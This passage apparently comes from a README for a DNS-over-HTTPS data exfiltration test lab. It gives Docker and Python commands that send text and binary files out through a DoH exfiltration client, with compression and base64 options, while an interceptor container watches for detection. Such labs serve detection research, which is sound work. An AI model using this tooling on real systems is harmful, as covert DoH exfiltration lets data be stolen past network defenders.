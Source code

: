 # Usage Examples

## 🎯 Basic Examples

### Simple Text Exfiltration
```bash
# Create test data
echo "Secret corporate data" > /tmp/secret.txt

# Basic exfiltration using JSON configuration
docker exec -it exfil_client bash -c "
cd /app
python run_client.py --config test_configs/quick_test.json --file /tmp/secret.txt
"

# Monitor detection
docker logs -f exfil_interceptor
```

### Binary File Exfiltration
```bash
# Create test binary file
dd if=/dev/urandom of=/tmp/binary_data.bin bs=1024 count=5

# Exfiltrate using speed benchmark configuration
docker exec -it exfil_client bash -c "
cd /app
python run_client.py --config test_configs/speed_benchmark.json --file /tmp/binary_data.bin
"
```
```bash
# Generate binary test file
dd if=/dev/urandom of=/tmp/data.bin bs=1024 count=5

# Exfiltrate with compression
docker exec -it exfil_client python3 -c "
from client import *
config = ExfiltrationConfig(
    compression=True,
    encoding=EncodingType.BASE64
)
client = DoHExfiltrationClient(config)
client.exfiltrate_file('/tmp/data.bin')
"
```

## 🔧 Configuration Generation Examples

### Creating Custom Configurations
